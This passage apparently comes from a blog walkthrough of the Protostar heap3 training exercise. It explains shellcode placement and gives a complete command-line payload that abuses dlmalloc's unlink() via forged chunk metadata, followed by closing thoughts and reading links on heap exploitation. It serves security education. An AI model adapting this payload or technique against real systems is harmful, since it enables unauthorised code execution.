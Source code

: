 We place our shell code at the start of the heap using our first `strcpy()`.
We want to start the shellcode after writing 4 bytes because the initial 4
bytes of data for each chunk will be overwritten when the chunk is freed.
Since we know that our heap memory starts at `0x804c000`, we know that our
shell code starts at `0x804c00c`.

```shell
user@protostar:~$ /opt/protostar/bin/heap3 `python -c "print 'AAAA\x68\x64\x88\x04\x08\xc3'"` `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x1c\xb1\x04\x08\x0c\xc0\x04\x08'"` DDD
that wasn't too bad now, was it? @ 1527713315
```

<h1>Closing Thoughts</h1>

Heap exploitation is _complicated_. The examples we have seen in Protostar are
relatively simple techniques. This is especially true for heap 3 as glibc has
been hardened against the "unlink()" technique for a very long time. However,
it is still worth studying as it nicely illustrates how heap metadata can be
abused for code execution.

We leave links to resources that are worth reading to further your heap
exploitation knowledge.

Already linked above:

1. [Vudo - An object superstitiously believed to embody magical powers][phrack-vudo]
2. [Once upon a free()...][once-upon-a-free]

Other classic papers:

1. [Advanced Doug lea's malloc exploits][advanced-dlmalloc-exploits]
2. [The Malloc Maleficarum][malloc-maleficarum]
3. [Malloc Des-Maleficarum][malloc-des-maleficarum]

Constantly updated resource:

1. [shellphish's how2heap on GitHub][how2heap]

[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[protostar-format-writeup]: {% post_url 2018-05-27-protostar-walkthrough-format %}
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap
